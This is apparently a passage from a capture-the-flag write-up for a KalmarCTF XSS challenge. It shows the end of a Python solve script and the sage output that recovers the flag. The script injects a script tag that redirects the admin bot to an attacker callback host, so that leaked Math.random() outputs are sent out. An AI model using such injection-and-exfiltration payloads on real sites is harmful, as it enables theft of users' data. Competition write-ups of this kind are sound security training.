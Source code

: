 ```py
setTimeout(() => {
  const frame = document.createElement("iframe");
  frame.src = "https://xss-spukhafte.chal-kalmarc.tf/?html=" + encodeURIComponent(inner);
  document.getElementById("container").appendChild(frame);
}, 2000);
</script>
""".replace("REQUESTREPO", REQUESTREPO)
# put ^ on that requestrepo, or host a server, idk

r = requests.post(HOST + "/report", json={"url": "https://xss-spukhafte.chal-kalmarc.tf/?html=" + urllib.parse.quote(f"<script>window.location.href='{REQUESTREPO}/';</script>")})
print(r, r.text)
```

If you run this with an appropriate callback URL, it'll exfiltrate two sets of 4 Math.random() outputs, which you can plug into my solve script and, eventually, recover the flag :)

```
$ sage solve.py
random seed 1: 13064262445274959226
random seed 2: 2452739071240180465
[...]
root seed: 15620352084711387380
e75916eb-9844-42db-8c80-e0708e0332a8 {"note":"kalmar{REDACTED}"}
```